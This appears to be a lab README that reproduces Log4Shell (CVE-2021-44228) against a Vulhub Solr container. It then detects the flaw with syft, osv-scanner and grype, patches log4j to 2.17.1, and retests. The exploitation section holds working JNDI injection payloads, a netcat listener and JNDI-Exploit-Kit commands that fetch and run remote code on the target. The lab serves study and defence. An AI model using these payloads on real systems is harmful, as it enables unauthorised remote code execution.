






# Software Supply-Chain Dependency

For simplicity and ease of setup, the vulnhub docker container is used for Solr: https://hub.docker.com/r/vulhub/solr


## Running the Lab

This setup assumes a freshly installed Kali Linux VM. By following the installation instructions the artifacts from the report can be independently verified.

Three terminals are used during testing, detailed here. All terminals are used on Kali, with some executing commands on the Solr host.

| Terminal                 | Role                                                                |
| ------------------------ | ------------------------------------------------------------------- |
| **Terminal 1 — Control** | setup, Docker, recon, scanning, firing payloads, mitigation, retest |
| **Terminal 2 — Server**  | netcat listener, then the JNDI-Exploit-Kit        |

**Assume commands to be on Terminal 1 unless explicitly stated otherwise.**

To begin with, run the following commands in Terminal 1 on the Kali VM:

### To install the initial dependencies for testing

```bash
sudo apt update
sudo apt install -y docker.io docker-compose default-jdk maven git curl zip nmap netcat-traditional
sudo systemctl enable --now docker

# Run Docker without sudo for the rest of the lab for simplicity
sudo usermod -aG docker "$USER"
newgrp docker        # or log out and back in once
docker ps            # should succeed with an empty list, no sudo
```

Installing the SCA tools for testing:

```bash
# Syft (SBOM) and Grype (second scanner), via Anchore's installers:
curl -sSfL https://raw.githubusercontent.com/anchore/syft/main/install.sh  | sudo sh -s -- -b /usr/local/bin
curl -sSfL https://raw.githubusercontent.com/anchore/grype/main/install.sh | sudo sh -s -- -b /usr/local/bin

# osv-scanner (primary). Check the releases page for the current asset name.
sudo curl -sSfL -o /usr/local/bin/osv-scanner \
  "https://github.com/google/osv-scanner/releases/latest/download/osv-scanner_linux_amd64"
sudo chmod +x /usr/local/bin/osv-scanner

# Verify everything resolves:
docker --version && java -version && mvn -version && osv-scanner --version && syft version && grype version
```

Creating a working directory for the lab:

```bash
mkdir -p ~/log4shell-lab && cd ~/log4shell-lab
```

### Building the Solr Target

Cloning and installing the vulnerable target from VulnHub:

```bash
cd ~/log4shell-lab
git clone https://github.com/vulhub/vulhub.git
cd vulhub/log4j/CVE-2021-44228
docker compose up -d
# Solr Admin UI: http://127.0.0.1:8983
```

Establishing the network. From here, this terminal instance will be known as terminal 1.

```bash
docker network ls                      # note the Vulhub network (e.g. cve-2021-44228_default)
ATTACKER=$(docker network inspect cve-2021-44228_default -f '{{(index .IPAM.Config 0).Gateway}}')
TARGET=127.0.0.1
echo "ATTACKER (Kali host as seen by the container) = $ATTACKER"   # e.g. 172.18.0.1
echo "TARGET (Solr, from the Kali host)             = $TARGET"
```


*Figure: Network setup used during testing.*

Confirming the presence of the vulnerable log4j dependency.

```bash
docker compose exec solr find /opt -name 'log4j-core-*.jar'
#   -> /opt/solr/server/lib/ext/log4j-core-2.14.1.jar
```


*Figure: The vulnerable log4j-2.14.1 component present within Solr 8.11.0.*

### Conducting the Exploit

Recon to confirm Solr is up and running on port 8983 via nmap.

```bash
nmap -sV -p 8983 "$TARGET"             # Solr Admin UI on 8983
```

#### On Future Commands

The Solr cores admin endpoint logs its `action` parameter through Log4j, so `action` is the injection point used for exploitation.

```
GET /solr/admin/cores?action=<PAYLOAD>
```

---

**Terminal 2:**

Creating a Listener

```bash
nc -lvnp 1389                          # waits for the inbound LDAP connection
```

---

**Terminal 1:**

Proving that an attacker initiated JNDI lookup can occur due to the log4j component.

```bash
curl -g -s "http://$TARGET:8983/solr/admin/cores?action=\${jndi:ldap://$ATTACKER:1389/test}"
```


*Figure: Solr performs an attacker-directed JNDI lookup, confirming injection.*

#### Escalating to RCE

Create and compile the payload using the JNDI Lookup kit.

```bash
cd ~/log4shell-lab
git clone https://github.com/pimps/JNDI-Exploit-Kit.git
export MAVEN_OPTS="-Djdk.util.zip.disableZip64ExtraFieldValidation=true"
cd JNDI-Exploit-Kit && mvn clean package -DskipTests && cd ~/log4shell-lab
ls JNDI-Exploit-Kit/target/*-all.jar       # confirm the exact jar name
#   -> target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
```

---

**Terminal 2:**

```bash
newgrp docker            
docker ps                
ATTACKER=$(docker network inspect cve-2021-44228_default -f '{{(index .IPAM.Config 0).Gateway}}')
echo "$ATTACKER"         # must print 172.18.0.1 or IP
cd ~/log4shell-lab/JNDI-Exploit-Kit
java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "touch /tmp/pwned" -L "$ATTACKER:1389"
# expect: [LDAP_ADDR] >> 172.18.0.1
```

---

**Terminal 1:***

Use the LDAP link for KITPATH under “JDK 1.8 whose trustURLCodebase is true”, in my case:

```
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://172.18.0.1:1099/uj9v6c
ldap://172.18.0.1:1389/uj9v6c
```

Run the following:

```bash
curl -g -s "http://$TARGET:8983/solr/admin/cores?action=\${jndi:ldap://$ATTACKER:1389/<KIT-PATH>}"
```

(In my case)

```bash
curl -g -s "http://$TARGET:8983/solr/admin/cores?action=\${jndi:ldap://$ATTACKER:1389/uj9v6c}"
```

Then use the following to verify RCE:

```bash
cd ~/log4shell-lab/vulhub/log4j/CVE-2021-44228
docker compose exec solr ls -l /tmp/pwned
#   -> -rw-r--r-- ... /tmp/pwned
```


*Figure: Successful RCE confirmed on the left, with the LDAP server on the right confirming JNDI Lookup.*

### Testing to Identify the Vulnerability

To produce the sbom and run osv-scanner in the VM:

```bash
cd ~/log4shell-lab/vulhub/log4j/CVE-2021-44228
docker compose cp solr:/opt/solr/server/lib/ext ~/log4shell-lab/solr-ext
ls ~/log4shell-lab/solr-ext | grep log4j        # confirm the jars are present

cd ~/log4shell-lab
syft dir:solr-ext -o cyclonedx-json > sbom.cdx.json  # auditable component inventory
grep -i log4j sbom.cdx.json                      # confirm syft found log4j-core 2.14.1
osv-scanner scan -L sbom.cdx.json                # -> GHSA-jfh8-c2jp-5v3q / CVE-2021-44228

# Producing a readable copy
osv-scanner scan -L sbom.cdx.json --format markdown > ~/log4shell-lab/osv-report.md
```


*Figure: osv-scanner detecting CVE-2021-44228 as GHSA-jfh8-c2jp-5v3q.*

Running grype to corroborate results:

```bash
cd ~/log4shell-lab
grype sbom:sbom.json                             # independent agreement on CVE-2021-44228
```


*Figure: Grype verifying the presence of the CVE using an independent database.*

### Mitigating the Vulnerability

Run the following to create and execute the patch script on the VM:

```bash
cat > ~/log4shell-lab/upgrade-log4j.sh <<'EOF'
#!/usr/bin/env bash
set -euo pipefail
MODS="log4j-api log4j-core log4j-slf4j-impl log4j-1.2-api log4j-web log4j-layout-template-json"
LAB="$HOME/log4shell-lab"
VH="$LAB/vulhub/log4j/CVE-2021-44228"

# 1) Download the 2.17.1 jars
mkdir -p "$LAB/log4j-2.17.1" && cd "$LAB/log4j-2.17.1"
for m in $MODS; do
  curl -sSfLO "https://repo1.maven.org/maven2/org/apache/logging/log4j/$m/2.17.1/$m-2.17.1.jar"
done
echo "Downloaded:"; ls -1 "$LAB/log4j-2.17.1"

# 2) Swap them into the container
cd "$VH"
for m in $MODS; do
  docker compose exec --user root solr rm -f "/opt/solr/server/lib/ext/$m-2.14.1.jar"
  docker compose cp "$LAB/log4j-2.17.1/$m-2.17.1.jar" \
    "solr:/opt/solr/server/lib/ext/$m-2.17.1.jar"
done
docker compose restart solr
EOF
bash ~/log4shell-lab/upgrade-log4j.sh

# Confirm Solr came back up on 2.17.1 (scope the find to server/lib/ext):
cd ~/log4shell-lab/vulhub/log4j/CVE-2021-44228
docker compose exec solr find /opt/solr/server/lib/ext -name 'log4j-core-*.jar'   # -> log4j-core-2.17.1.jar
curl -s -o /dev/null -w '%{http_code}\n' "http://127.0.0.1:8983/solr/"            # -> 200
```


*Figure: Solr patched to use log4j 2.17.1 by the upgrade script.*

### Re-testing Results

The same exploitation steps and SCA tools should be run on the patched machine.

Remember to re-run this in both terminals:

```bash
sudo usermod -aG docker "$USER"
newgrp docker        # or log out and back in once
docker ps            # should succeed with an empty list, no sudo
docker network ls                      # note the Vulhub network (e.g. cve-2021-44228_default)
ATTACKER=$(docker network inspect cve-2021-44228_default -f '{{(index .IPAM.Config 0).Gateway}}')
TARGET=127.0.0.1
echo "ATTACKER (Kali host as seen by the container) = $ATTACKER"   # e.g. 172.18.0.1
echo "TARGET (Solr, from the Kali host)             = $TARGET"
```

JNDI Kitpaths for exploit:

```
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://172.18.0.1:1099/77z6kb
ldap://172.18.0.1:1389/77z6kb
```

```bash
curl -g -s "http://$TARGET:8983/solr/admin/cores?action=\${jndi:ldap://$ATTACKER:1389/77z6kb}"
```


*Figure: RCE prevented after the Log4J upgrade.*

SCA REtesting:

```bash
cd ~/log4shell-lab/vulhub/log4j/CVE-2021-44228
rm -rf ~/log4shell-lab/solr-ext-fixed
docker compose cp solr:/opt/solr/server/lib/ext ~/log4shell-lab/solr-ext-fixed
cd ~/log4shell-lab
syft dir:solr-ext-fixed -o cyclonedx-json > sbom-fixed.cdx.json
osv-scanner scan -L sbom-fixed.cdx.json       # log4j 2.17.1 -> no CVE-2021-44228
grype sbom:sbom-fixed.cdx.json                # confirms clean
```


*Figure: osv-scanner no longer detecting CVE-2021-44228 in the patched version.*


*Figure: Grype corroborating the patch.*
